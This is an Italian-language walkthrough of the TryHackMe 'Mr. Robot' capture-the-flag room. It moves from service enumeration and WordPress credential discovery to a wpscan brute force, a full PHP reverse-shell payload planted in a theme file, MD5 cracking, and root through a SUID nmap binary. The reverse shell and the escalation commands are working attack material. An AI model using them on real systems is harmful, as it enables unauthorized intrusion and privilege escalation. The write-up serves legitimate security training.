



Mr.Robot
Link: https://tryhackme.com/room/mrrobot
Come prima cosa impostiamo correttamente la macchina Kali per iniziare
| echo "10.128.143.12 mrrobot.local" | sudo tee -a /etc/hosts
|
Procediamo poi con l’enumerazione dei servizi presenti nella macchina utilizzando nmap
| kali@kali:~$ sudo nmap -sS -sV -sC -p- mrrobot.local
Starting Nmap 7.99 ( https://nmap.org ) at 2026-10-01 10:55 -0400
Stats: 0:01:19 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 53.37% done; ETC: 10:58 (0:01:09 remaining)
Nmap scan report for mrrobot.local (10.128.143.12)
Host is up (0.055s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 3072 42:30:a5:4f:08:37:65:37:82:ce:79:a6:e7:16:3e:d4 (RSA)
| 256 cc:a6:10:0c:d6:16:2e:56:d5:f6:a8:77:af:cb:cb:a2 (ECDSA)
|_ 256 a4:22:4d:98:43:55:21:cc:05:7e:00:d1:98:b3:06:38 (ED25519)
80/tcp open http Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after: 2025-09-13T10:45:03
|_http-server-header: Apache
|_ssl-date: TLS randomness does not represent time
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 249.63 seconds
|
| Servizio |
Porta |
Versione |
| ssh |
22 |
|
| http |
80 |
|
| https |
443 |
|
Procediamo con l’enumerare i file e cartelle presenti nel servizio web usando gobuster
| gkali@kali:~$ gobuster dir -u http://mrrobot.local -w /usr/share/seclists/Discovery/Web-Content/common.txt -x ".php,.txt,.bak"
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://mrrobot.local
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.8.2
[+] Extensions: php,txt,bak
[+] Timeout: 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
.git/index.php (Status: 301) [Size: 0] [--> http://mrrobot.local/.git/]
.hta (Status: 403) [Size: 213]
.hta.bak (Status: 403) [Size: 217]
.hta.php (Status: 403) [Size: 217]
.hta.txt (Status: 403) [Size: 217]
.htaccess (Status: 403) [Size: 218]
.htaccess.php (Status: 403) [Size: 222]
.htaccess.txt (Status: 403) [Size: 222]
.htpasswd.php (Status: 403) [Size: 222]
.htpasswd (Status: 403) [Size: 218]
.htaccess.bak (Status: 403) [Size: 222]
.htpasswd.txt (Status: 403) [Size: 222]
.htpasswd.bak (Status: 403) [Size: 222]
0 (Status: 301) [Size: 0] [--> http://mrrobot.local/0/]
Image (Status: 301) [Size: 0] [--> http://mrrobot.local/Image/]
admin (Status: 301) [Size: 235] [--> http://mrrobot.local/admin/]
atom (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/atom/]
audio (Status: 301) [Size: 235] [--> http://mrrobot.local/audio/]
blog (Status: 301) [Size: 234] [--> http://mrrobot.local/blog/]
css (Status: 301) [Size: 233] [--> http://mrrobot.local/css/]
dashboard (Status: 302) [Size: 0] [--> http://mrrobot.local/wp-admin/]
favicon.ico (Status: 200) [Size: 0]
feed (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
image (Status: 301) [Size: 0] [--> http://mrrobot.local/image/]
images (Status: 301) [Size: 236] [--> http://mrrobot.local/images/]
index.php (Status: 301) [Size: 0] [--> http://mrrobot.local/]
index.html (Status: 200) [Size: 1188]
index.php (Status: 301) [Size: 0] [--> http://mrrobot.local/]
intro (Status: 200) [Size: 516314]
js (Status: 301) [Size: 232] [--> http://mrrobot.local/js/]
license (Status: 200) [Size: 309]
license.txt (Status: 200) [Size: 309]
login (Status: 302) [Size: 0] [--> http://mrrobot.local/wp-login.php]
page1 (Status: 301) [Size: 0] [--> http://mrrobot.local/]
phpmyadmin (Status: 403) [Size: 94]
rdf (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/rdf/]
readme (Status: 200) [Size: 64]
render?url=https://www.google.com.php (Status: 301) [Size: 0] [--> http://mrrobot.local/render%3Furl=https:/www.google.com.php]
render?url=https://www.google.com (Status: 301) [Size: 0] [--> http://mrrobot.local/render%3Furl=https:/www.google.com]
render?url=https://www.google.com.txt (Status: 301) [Size: 0] [--> http://mrrobot.local/render%3Furl=https:/www.google.com.txt]
render/https://www.google.com.php (Status: 301) [Size: 0] [--> http://mrrobot.local/render/https:/www.google.com.php]
render?url=https://www.google.com.bak (Status: 301) [Size: 0] [--> http://mrrobot.local/render%3Furl=https:/www.google.com.bak]
render/https://www.google.com (Status: 301) [Size: 0] [--> http://mrrobot.local/render/https:/www.google.com]
render/https://www.google.com.bak (Status: 301) [Size: 0] [--> http://mrrobot.local/render/https:/www.google.com.bak]
render/https://www.google.com.txt (Status: 301) [Size: 0] [--> http://mrrobot.local/render/https:/www.google.com.txt]
robots (Status: 200) [Size: 41]
robots.txt (Status: 200) [Size: 41]
robots.txt (Status: 200) [Size: 41]
rss (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
rss2 (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
sitemap (Status: 200) [Size: 0]
sitemap.xml (Status: 200) [Size: 0]
video (Status: 301) [Size: 235] [--> http://mrrobot.local/video/]
wp-admin (Status: 301) [Size: 238] [--> http://mrrobot.local/wp-admin/]
wp-app.php (Status: 403) [Size: 0]
wp-atom.php (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/atom/]
wp-config (Status: 200) [Size: 0]
wp-commentsrss2.php (Status: 301) [Size: 0] [--> http://mrrobot.local/comments/feed/]
wp-content (Status: 301) [Size: 240] [--> http://mrrobot.local/wp-content/]
wp-config.php (Status: 200) [Size: 0]
wp-cron (Status: 200) [Size: 0]
wp-cron.php (Status: 200) [Size: 0]
wp-feed.php (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
wp-includes (Status: 301) [Size: 241] [--> http://mrrobot.local/wp-includes/]
wp-links-opml (Status: 200) [Size: 227]
wp-links-opml.php (Status: 200) [Size: 227]
wp-load (Status: 200) [Size: 0]
wp-load.php (Status: 200) [Size: 0]
wp-login.php (Status: 200) [Size: 2613]
wp-login (Status: 200) [Size: 2613]
wp-mail.php (Status: 500) [Size: 3074]
wp-mail (Status: 500) [Size: 3074]
wp-rdf.php (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/rdf/]
wp-register.php (Status: 301) [Size: 0] [--> http://mrrobot.local/wp-login.php?action=register]
wp-rss.php (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
wp-settings (Status: 500) [Size: 0]
wp-rss2.php (Status: 301) [Size: 0] [--> http://mrrobot.local/feed/]
wp-settings.php (Status: 500) [Size: 0]
wp-signup (Status: 302) [Size: 0] [--> http://mrrobot.local/wp-login.php?action=register]
wp-signup.php (Status: 302) [Size: 0] [--> http://mrrobot.local/wp-login.php?action=register]
xmlrpc (Status: 405) [Size: 42]
xmlrpc.php (Status: 405) [Size: 42]
xmlrpc.php (Status: 405) [Size: 42]
Progress: 19000 / 19000 (100.00%)
|
Si capisce subito che è un applicazione wordpress
Guardando la sorgente della pagina principale / si trova questo script javascript
| <script>var USER_IP='208.185.115.6';var BASE_URL='index.html';var RETURN_URL='index.html';var REDIRECT=false;window.log=function(){log.history=log.history||[];log.history.push(arguments);if(this.console){console.log(Array.prototype.slice.call(arguments));}};</script>
|
Mostra un ip 208.185.115.6 potrebbe tornare utile.
Provando a navigare per gli url trovati…


Ora sappiamo pure che si tratta di wordpress v4.3.1

E qui troviamo subito la prima chiave in http://mrrobot.local/key-1-of-3.txt e da robots.txt troviamo anche una lista di parole che sembrerebbe essere un dizionario delle possibili password, scarichiamolo con wget http://mrrobot.local/fsocity.dic
Guardando invece http://mrrobot.local/license arriviamo a fine della pagina in cui alla fine della pagina si trova un testo codificato ZWxsaW90OkVSMjgtMDY1Mgo= che sembra essere Base64, decodificato otteniamo user elliot con password ER28-0652
Per completezza:
Partendo dalla wordlist di tutte le password trovate prima, eliminiamo i duplicati con sort -u
| sort -u fsocity.dic > fsocity_uniq.dic
|
| kali@kali:~/Desktop/CTF/MrRobot$ wc -l fsocity.dic
858160 fsocity.dic
kali@kali:~/Desktop/CTF/MrRobot$ wc -l fsocity_uniq.dic
11451 fsocity_uniq.dic
|
Ora siamo pronti a fare bruteforce sul pannello wp-admin !
| kali@kali:~/Desktop/CTF/MrRobot$ wpscan --url http://mrrobot.local --passwords fsocity_uniq.dic --usernames elliot
[!] Valid Combinations Found:
| Username: elliot, Password: ER28-0652
|
La stessa trovata in precedenza infatti!
Loggandoci nel pannello di admin e andando in Apparence->Editor è possibile modificare file come 404.php iniettando php malevolo. Utilizziamo quindi https://www.revshells.com/ per generare il nostro payload malevolo php.
| <?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net
set_time_limit (0);
$VERSION = "1.0";
$ip = '192.168.142.32';
$port = 4444;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; bash -i';
$daemon = 0;
$debug = 0;
if (function_exists('pcntl_fork')) {
$pid = pcntl_fork();
if ($pid == -1) {
printit("ERROR: Can't fork");
exit(1);
}
if ($pid) {
exit(0); // Parent exits
}
if (posix_setsid() == -1) {
printit("Error: Can't setsid()");
exit(1);
}
$daemon = 1;
} else {
printit("WARNING: Failed to daemonise. This is quite common and not fatal.");
}
chdir("/");
umask(0);
// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
printit("$errstr ($errno)");
exit(1);
}
$descriptorspec = array(
0 => array("pipe", "r"), // stdin is a pipe that the child will read from
1 => array("pipe", "w"), // stdout is a pipe that the child will write to
2 => array("pipe", "w") // stderr is a pipe that the child will write to
);
$process = proc_open($shell, $descriptorspec, $pipes);
if (!is_resource($process)) {
printit("ERROR: Can't spawn shell");
exit(1);
}
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);
printit("Successfully opened reverse shell to $ip:$port");
while (1) {
if (feof($sock)) {
printit("ERROR: Shell connection terminated");
break;
}
if (feof($pipes[1])) {
printit("ERROR: Shell process terminated");
break;
}
$read_a = array($sock, $pipes[1], $pipes[2]);
$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
if (in_array($sock, $read_a)) {
if ($debug) printit("SOCK READ");
$input = fread($sock, $chunk_size);
if ($debug) printit("SOCK: $input");
fwrite($pipes[0], $input);
}
if (in_array($pipes[1], $read_a)) {
if ($debug) printit("STDOUT READ");
$input = fread($pipes[1], $chunk_size);
if ($debug) printit("STDOUT: $input");
fwrite($sock, $input);
}
if (in_array($pipes[2], $read_a)) {
if ($debug) printit("STDERR READ");
$input = fread($pipes[2], $chunk_size);
if ($debug) printit("STDERR: $input");
fwrite($sock, $input);
}
}
fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);
function printit ($string) {
if (!$daemon) {
print "$string\n";
}
}
?>
|
Aprendo la pagina creiamo la reverse shell
| kali@kali:~/Desktop/CTF/MrRobot$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.142.32] from (UNKNOWN) [10.129.147.133] 49110
Linux ip-10-129-147-133 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
17:28:18 up 1:28, 0 users, load average: 0.20, 0.05, 0.02
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
bash: cannot set terminal process group (3068): Inappropriate ioctl for device
bash: no job control in this shell
daemon@ip-10-129-147-133:/$
|
che ora stabilizzeremo
| kali@kali:~/Desktop/CTF/MrRobot$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.142.32] from (UNKNOWN) [10.129.147.133] 49110
Linux ip-10-129-147-133 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
17:28:18 up 1:28, 0 users, load average: 0.20, 0.05, 0.02
USER TTY FROM LOGIN@ IDLE JCPU PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
bash: cannot set terminal process group (3068): Inappropriate ioctl for device
bash: no job control in this shell
daemon@ip-10-129-147-133:/$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
daemon@ip-10-129-147-133:/$ ^Z
zsh: suspended nc -lvnp 4444
kali@kali:~/Desktop/CTF/MrRobot$ stty raw -echo; fg
[1] + continued nc -lvnp 4444
daemon@ip-10-129-147-133:/$ export TERM=xterm
daemon@ip-10-129-147-133:/$ export SHELL=/bin/bash
daemon@ip-10-129-147-133:/$
|
Navigando per il filesystem troviamo la seconda chiave e un file contente un md5 di una password
| daemon@ip-10-129-147-133:/home/robot$ ls
key-2-of-3.txt password.raw-md5
|
| daemon@ip-10-129-147-133:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@ip-10-129-147-133:/home/robot$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
daemon@ip-10-129-147-133:/home/robot$
|
Aia! non abbiamo i permessi ma abbiamo la password hashata, possiamo provare a decifrarla con hashcat
| kali@kali:~/Desktop/CTF/MrRobot$ hashcat --identify c3fcd3d76192e4007dfb496cca67e13b
[...]
c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz
[...]
|
La password è abcdefghijklmnopqrstuvwxyz
| kali@kali:~/Desktop/CTF/MrRobot$ ssh robot@mrrobot.local
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
robot@mrrobot.local's password:
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-139-generic x86_64)
* Documentation: https://help.ubuntu.com
* Management: https://landscape.canonical.com
* Support: https://ubuntu.com/pro
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.
Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.
Last login: Fri Nov 13 23:50:42 2015
$
|
Ora possiamo ricavare la chiave in /home/robot/key-2-of-3.txt
Ora ci rimane solo da fare privileage escalation verso root
| robot@ip-10-129-147-133:~$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.
SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin
# m h dom mon dow user command
17 * * * * root cd / && run-parts --report /etc/cron.hourly
25 6 * * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6 * * 7 root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6 1 * * root test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
41 * * * * bitnami cd /opt/bitnami/stats && ./agent.bin --run -D
robot@ip-10-129-147-133:~$
|
| robot@ip-10-129-147-133:~$ ls -al /opt/bitnami/stats/agent.bin
-rwxr-xr-x 1 bitnamiftp bitnami 3742628 Oct 20 2014 /opt/bitnami/stats/agent.bin
|
Guardando i processi attivi notiamo mysql
| robot@ip-10-129-147-133:~$ ps auxww
root 2250 0.0 0.0 2628 1776 ? S 16:01 0:00 /bin/sh /opt/bitnami/mysql/bin/mysqld_safe --defaults-file=/opt/bitnami/mysql/my.cnf --port=3306 --socket=/opt/bitnami/mysql/tmp/mysql.sock --datadir=/opt/bitnami/mysql/data --log-error=/opt/bitnami/mysql/data/mysqld.log --pid-file=/opt/bitnami/mysql/data/mysqld.pid --lower-case-table-names=1
mysql 2522 0.0 23.4 1413956 462972 ? Sl 16:01 0:06 /opt/bitnami/mysql/bin/mysqld.bin --defaults-file=/opt/bitnami/mysql/my.cnf --basedir=/opt/bitnami/mysql --datadir=/opt/bitnami/mysql/data --plugin-dir=/opt/bitnami/mysql/lib/plugin --user=mysql --lower-case-table-names=1 --log-error=/opt/bitnami/mysql/data/mysqld.log --pid-file=/opt/bitnami/mysql/data/mysqld.pid --socket=/opt/bitnami/mysql/tmp/mysql.sock --port=3306
|
| robot@ip-10-129-147-133:~$ cat /opt/bitnami/mysql/my.cnf
[mysqladmin]
user=root
[mysqld]
basedir=/opt/bitnami/mysql
datadir=/opt/bitnami/mysql/data
port=3306
socket=/opt/bitnami/mysql/tmp/mysql.sock
tmpdir=/opt/bitnami/mysql/tmp
max_allowed_packet=16M
bind-address=127.0.0.1
character-set-server=UTF8
collation-server=utf8_general_ci
[mysqld_safe]
mysqld=mysqld.bin
[client]
port=3306
socket=/opt/bitnami/mysql/tmp/mysql.sock
default-character-set=UTF8
[manager]
port=3306
socket=/opt/bitnami/mysql/tmp/mysql.sock
pid-file=/opt/bitnami/mysql/tmp/manager.pid
default-mysqld-path=/opt/bitnami/mysql/bin/mysqld.bin
|
Riguardando invece i file con SUID
| robot@ip-10-129-147-133:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
-rwsr-xr-x 1 root root 39144 Apr 9 2024 /bin/umount
-rwsr-xr-x 1 root root 55528 Apr 9 2024 /bin/mount
-rwsr-xr-x 1 root root 67816 Apr 9 2024 /bin/su
-rwsr-xr-x 1 root root 68208 Feb 6 2024 /usr/bin/passwd
-rwsr-xr-x 1 root root 44784 Feb 6 2024 /usr/bin/newgrp
-rwsr-xr-x 1 root root 53040 Feb 6 2024 /usr/bin/chsh
-rwsr-xr-x 1 root root 85064 Feb 6 2024 /usr/bin/chfn
-rwsr-xr-x 1 root root 88464 Feb 6 2024 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 166056 Apr 4 2023 /usr/bin/sudo
-rwsr-xr-x 1 root root 31032 Feb 21 2022 /usr/bin/pkexec
-rwsr-xr-x 1 root root 17272 Jun 2 2025 /usr/local/bin/nmap
-rwsr-xr-x 1 root root 477672 Apr 11 2025 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 14488 Jul 8 2019 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 22840 Feb 21 2022 /usr/lib/policykit-1/polkit-agent-helper-1
-r-sr-xr-x 1 root root 9532 Nov 13 2015 /usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
-r-sr-xr-x 1 root root 14320 Nov 13 2015 /usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
-rwsr-xr-- 1 root messagebus 51344 Oct 25 2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
|
Notiamo -rwsr-xr-x 1 root root 17272 Jun 2 2025 /usr/local/bin/nmap particolarmente strano… vediamo se riusciamo ad aprire una shell (https://gtfobins.org/gtfobins/nmap/#shell)
| robot@ip-10-129-147-133:~$ nmap --interactive
Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> whoami
root
|
Semplicissimo!!! siamo root non ci resta che leggere l’ultima key che si trova in /root/key-3-of-3.txt